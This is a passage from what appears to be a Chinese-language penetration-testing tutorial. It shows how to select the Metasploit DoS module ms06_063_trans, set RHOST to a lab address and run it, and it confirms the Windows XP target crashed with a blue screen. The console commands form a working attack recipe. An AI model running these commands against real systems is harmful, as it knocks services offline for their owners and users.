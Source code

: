 ```
   auxiliary/dos/windows/smb/vista_negotiate_stop                               normal  Microsoft Vista SP0 SMB Negotiate Protocol DoS 
```

在查询`/ dos / windows / smb`的相对路径后，返回的唯一结果是此目录中的 DoS 模块。 目录组织良好，可用于有效地搜索与特定平台或服务相关的漏洞。 一旦我们决定使用哪个漏洞，我们可以使用`use`命令和模块的相对路径来选择它：

```
msf > use auxiliary/dos/windows/smb/ms06_063_trans 
msf  auxiliary(ms06_063_trans) > show options

Module options (auxiliary/dos/windows/smb/ms06_063_trans):

   Name   Current Setting  Required  Description   ----   
   ---------------  --------  ----------   
   RHOST                   yes       The target address   
   RPORT  445              yes       Set the SMB service port
```

一旦选择了模块，`show options`命令可用于确定和/修改扫描配置。 此命令会显示四个列标题，包括`Name`, `Current Setting`, `Required`, 和 `Description`。 `Name`列表示每个可配置变量的名称。 `Current Setting`列列出任何给定变量的现有配置。 `Required`列表明任何给定变量是否需要值。 `Description`列描述每个变量的函数。 可以使用`set`命令并通过提供新值作为参数，来更改任何给定变量的值：

```
msf  auxiliary(ms06_063_trans) > set RHOST 172.16.36.134 
 => 172.16.36.134 
 msf  auxiliary(ms06_063_trans) > show options

Module options (auxiliary/dos/windows/smb/ms06_063_trans):

   Name   Current Setting  Required  Description   
   ----   ---------------  --------  ----------   
   RHOST  172.16.36.134    yes       The target address   
   RPORT  445              yes       Set the SMB service port 
```

在提供的示例中，`RHOST`值更改为我们打算扫描的远程系统的 IP 地址。 更新必要的变量后，可以使用`show options`命令再次验证配置。 一旦验证了所需的配置，可以使用`run`命令启动模块：

```
msf  auxiliary(ms06_063_trans) > run

[*] Connecting to the target system... 
[*] Sending bad SMB transaction request 1... 
[*] Sending bad SMB transaction request 2... 
[*] Sending bad SMB transaction request 3... 
[*] Sending bad SMB transaction request 4... 
[*] Sending bad SMB transaction request 5... 
[*] Auxiliary module execution completed 
```

在执行 Metasploit DoS 辅助模块之后，返回的一系列消息表明已经执行了一系列恶意 SMB 事务，并且返回表示模块执行完成的最终消息。 该漏洞的成功可以通过查看 Windows XP 系统来验证，它已经崩溃，现在显示 BSOD：

![](../img/463c0ca40394b6224361cc495330bb72.png)
